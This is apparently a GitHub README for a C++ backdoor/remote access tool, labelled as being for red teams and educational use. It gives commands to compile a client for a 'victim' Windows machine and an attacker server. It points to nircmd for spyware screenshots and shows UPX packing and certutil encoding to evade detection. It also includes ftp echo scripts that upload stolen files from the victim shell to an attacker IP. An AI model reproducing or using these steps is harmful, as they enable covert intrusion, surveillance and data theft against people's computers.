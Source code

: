 # C++ Backdoor/RAT </br>
### _Ethical Remote Access Tool for Red Teams / Educational use ONLY_ </br>
Do not use for Black Hat purposes
**by Pol Galvez**
![alt text](https://raw.githubusercontent.com/PolGs/C-EthicalRAT/main/image_2021-07-30_221130.png)
## How to Use</br>
1) **Compile client for victims windows machine:**
```sh
i686-w64-mingw32-gcc -o /Documents/EternalPurple/bin/client/backdoor.exe /Documents/EternalPurple/backdoor.c -lwsock32 -lwininet
```

2)** Compile server for linux attackers machine:**
```sh
gcc /home/kali/Documents/EternalPurple/server.c -o /home/kali/Documents/EternalPurple/bin/server/server.exe
```
3) **Execute**
```sh
./server.exe
backdoor.exe
```

Commands assume that you have a linux OS and mingw installed
Also that you have backdoor.c and server.c on a Folder Called EternalPurple on your Documents


## Functionalities: </br>
### Screenshot:
![alt text](https://github.com/PolGs/C-EthicalRAT/blob/main/Screenshot%202021-07-29%20012247.png?raw=true)

thanks to  • SCHØØL ZERØ • for tutorials on how to do this
https://www.youtube.com/c/SCHØØLZERØ <br>
Playlist Creating similar RAT<br>
https://youtube.com/playlist?list=PLSqjYSJtqeaV1Hdk2ZVnr90KpDObfzDSs
https://youtu.be/6Dc8i1NQhCM<br>
Easy metasploit spyware:<br>
https://youtu.be/V67VIQB7N0w

## Other
To gain spyware functionalities you can use nircmd: https://www.nirsoft.net/utils/nircmd.html

## nircmd command to take screenshots
nircmd.exe savescreenshot screen1.png

## UPX to Obfuscate executable \n
UPX: https://upx.github.io
```sh
upx program.exe
```
You can also use certutil to encode executable
```sh
certutil -encode test.exe test.txt
```
```sh
certutil -decode test.txt test.exe
```
## ftp echos to Download files change put for get to Upload (This is done client side on the Shell)
```sh
echo open 192.168.1.171 >> ftp.txt
echo kali>> ftp.txt
echo kali>> ftp.txt
echo bin>> ftp.txt
echo put s1.png>> ftp.txt
echo bye>> ftp.txt

ftp -s:ftp.txt

open 192.168.44.130
kali
kali
put P1010975.JPG
bye
```
## License
Open Source<br>
**Free Software, Hell Yeah!**
